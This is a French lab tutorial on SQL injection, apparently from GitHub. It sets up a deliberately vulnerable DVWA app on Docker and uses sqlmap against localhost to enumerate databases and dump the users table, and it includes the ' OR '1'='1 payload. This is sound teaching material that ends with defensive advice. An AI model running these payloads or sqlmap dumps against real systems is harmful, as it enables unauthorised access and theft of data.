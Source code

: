 # TP d'injection SQL avec DVWA sur Docker, Kali Linux et sqlmap

## Introduction à l'Injection SQL

L'injection SQL est une vulnérabilité de sécurité web qui permet à un attaquant d'interférer avec les requêtes SQL qu'une application exécute sur sa base de données. En injectant du code SQL malveillant dans les entrées utilisateur, un attaquant peut contourner les mesures de sécurité, accéder à des données sensibles, modifier ou supprimer des données, voire même exécuter des commandes sur le serveur de base de données.

### Exemple d'Injection SQL

Prenons un exemple simple. Un site web a une page de connexion avec un champ "Nom d'utilisateur". Le code SQL pour vérifier les identifiants pourrait être :

```sql
SELECT * FROM utilisateurs WHERE nom_utilisateur = '$nom_utilisateur';
```

Si un utilisateur entre `' OR '1'='1`, la requête devient :

```sql
SELECT * FROM utilisateurs WHERE nom_utilisateur = '' OR '1'='1';
```

Comme `1=1` est toujours vrai, la requête renvoie toutes les lignes de la table utilisateurs, permettant potentiellement à l'attaquant de se connecter sans connaître le mot de passe.

## Mise en place de l'environnement sur Docker

### 1. Créer un réseau Docker

```bash
docker network create dvwa-network
```
![Screenshot 2024-12-19 210102](https://github.com/user-attachments/assets/22a42101-1819-47d1-877c-b1d673993446)


### 2. Lancer DVWA avec MySQL

Créez un fichier `docker-compose.yml` avec le contenu suivant :

```yaml
version: '3.8'
services:
  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "80:80"
    networks:
      - dvwa-network
    depends_on:
      - mysql
  mysql:
    image: mysql:5.7
    environment:
      MYSQL_ROOT_PASSWORD: "kali"
      MYSQL_DATABASE: dvwa
      MYSQL_USER: dvwa
      MYSQL_PASSWORD: "kali"
    volumes:
      - db_data:/var/lib/mysql
    networks:
      - dvwa-network

volumes:
  db_data:

networks:
  dvwa-network:
    driver: bridge
```

Exécutez :

```bash
docker-compose up -d
```
![Screenshot 2024-12-19 210732](https://github.com/user-attachments/assets/269966e3-8f88-4619-9f02-7cc466a65e30)


### 3. Lancer Kali Linux (facultatif)

Si vous utilisez une instance Kali Linux existante, assurez-vous que `sqlmap` est installé :

```bash
sudo apt update && sudo apt install sqlmap
```

## TP avec sqlmap

### 1. Accéder à DVWA

Ouvrez votre navigateur et accédez à `http://localhost`. Configurez DVWA (database setup). Assurez-vous de choisir le niveau de sécurité "Low" pour cet exercice.
![Screenshot 2024-12-19 211119](https://github.com/user-attachments/assets/e8bfe0c5-7811-428b-882e-de7ad6338132)

![Screenshot 2024-12-19 211137](https://github.com/user-attachments/assets/224f6481-7228-4b9b-9d55-1f424db4c272)

![Screenshot 2024-12-19 211300](https://github.com/user-attachments/assets/6e391cfe-0333-4b45-834a-5babec11850c)

![Screenshot 2024-12-19 211733](https://github.com/user-attachments/assets/fdd5e1ca-393a-49c0-a4c8-f568358b3c7b)

### 2. Identifier la vulnérabilité

Dans DVWA, allez dans "SQL Injection". Entrez un ID (par exemple, 1). Observez l'URL. Elle devrait ressembler à ceci : `http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#`.

![Screenshot 2024-12-19 211821](https://github.com/user-attachments/assets/55b71d7b-c07c-4e3d-b387-31806c4b16c6)

![Screenshot 2024-12-19 211836](https://github.com/user-attachments/assets/5b2048b1-1be8-4f46-a1ae-a8d2144cb547)


### 3. Utilisation de sqlmap

#### Tester la vulnérabilité

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 --dbs --batch --level 1
```
![Screenshot 2024-12-19 212018](https://github.com/user-attachments/assets/447585f6-6328-49bf-a470-d81d9d9c43a6)


#### Lister les tables d'une base de données

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 -D dvwa --tables --batch --level 1
```
![Screenshot 2024-12-19 212121](https://github.com/user-attachments/assets/f9218dd7-dbff-4135-8cc1-3a0d44f16f9d)


#### Lister les colonnes d'une table

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 -D dvwa -T users --columns --batch --level 1
```
![Screenshot 2024-12-19 214207](https://github.com/user-attachments/assets/1817015e-ed3e-41b3-820c-4c3ab13413e5)

#### Récupérer les données d'une table

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 -D dvwa -T users --dump --batch --level 1
```
![Screenshot 2024-12-19 214232](https://github.com/user-attachments/assets/c02bd939-9908-49cb-b0a8-7a680066cadb)

## Résumé

Ce TP a permis de comprendre les bases de l'injection SQL, de mettre en place un environnement de test avec Docker, DVWA et Kali Linux, et d'utiliser `sqlmap` pour exploiter une vulnérabilité d'injection SQL.

## Conclusion

L'injection SQL est une menace sérieuse pour les applications web. Il est crucial de mettre en œuvre des mesures de sécurité robustes, telles que la validation et l'échappement des entrées utilisateur, l'utilisation de requêtes préparées ou d'ORM, pour prévenir ces attaques. Ce TP offre une expérience pratique pour comprendre et contrer cette vulnérabilité.
